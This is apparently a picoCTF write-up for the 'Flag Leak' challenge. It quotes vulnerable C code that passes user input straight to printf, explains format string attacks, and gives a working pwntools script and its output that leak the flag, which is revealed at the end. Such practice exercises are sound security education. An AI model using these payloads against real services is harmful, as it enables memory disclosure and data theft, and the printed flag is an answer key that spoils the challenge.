 # Flag Leak 
#### Description
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 55800`

Contents of `vuln.c` : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Lets analyse the code. Here is what is interesting: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story); // <- no format specifier, vulnerable to format string attacks
   printf("\n");
}
```

This is how the print statement works: 
The `printf` function takes a variable number of arguments. The 0th argument is the format string, and the 1st and late arguments are the values that match the format. The grammar of a conversion specification is: 
```
%[argument$][flags][width][.precision][length modifier]conversion
```

But in the program given above, there is only one argument passed in the `printf` statement. 
So, we have full control on what format string to use. 

Python script: 
```python
from pwn import * 

for i in range(128):
    x = remote('saturn.picoctf.net', 57992)
    try: 
        x.sendline('%' + str(i) + '$s')
        x.recvuntil(b'>')
        y = x.recvlines(2)[1] # this line was giving me EOF error, so I put it in a try except block  
        if b'CTF' in y:
            print(y)
            x.close()
            break
        print(i, y)
        x.close()
    except Exception:
        pass
```

What this code does is basically, sends the format string `%{integer}$s` to the program, returns its output and then closes the connection with the server. 

If the output contains `CTF`, then it will print the output and and close the connection and break the loop.  

`%{integer}$s` -> `printf` will fetch whatever value is at the stack location for argument {integer} and treat that value as an address. It will then try to read a NUL-terminated string from that address and print it.

I tried using `%x`, but it didn't yield any results, even up until the end of the buffer. 
`%s` is what gave out the flag. 

Output: 
```
 x.sendline('%' + str(i) + '$s')
0 b'%0$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
1 b'%1$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
2 b'\x10Q\x93\xf2'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
3 b'\x81\xc3\xba,'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
6 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
7 b'\x07/'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
8 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
10 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
11 b'\xb3.'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
12 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
13 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
14 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
15 b'\x83\xc4\x10\x83\xf8\xff\x0f\x84\xba'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
16 b'\x87(\xad\xfbg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeh\x8d@\xee'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
18 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
19 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
20 b'\xa0\xb1\xd5\xec'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
21 b'\x89\xc7e\xa1\x0c'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
22 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
23 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
b'CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}'
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
```

flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

Reference: 
https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
https://docs.pwntools.com/en/stable/

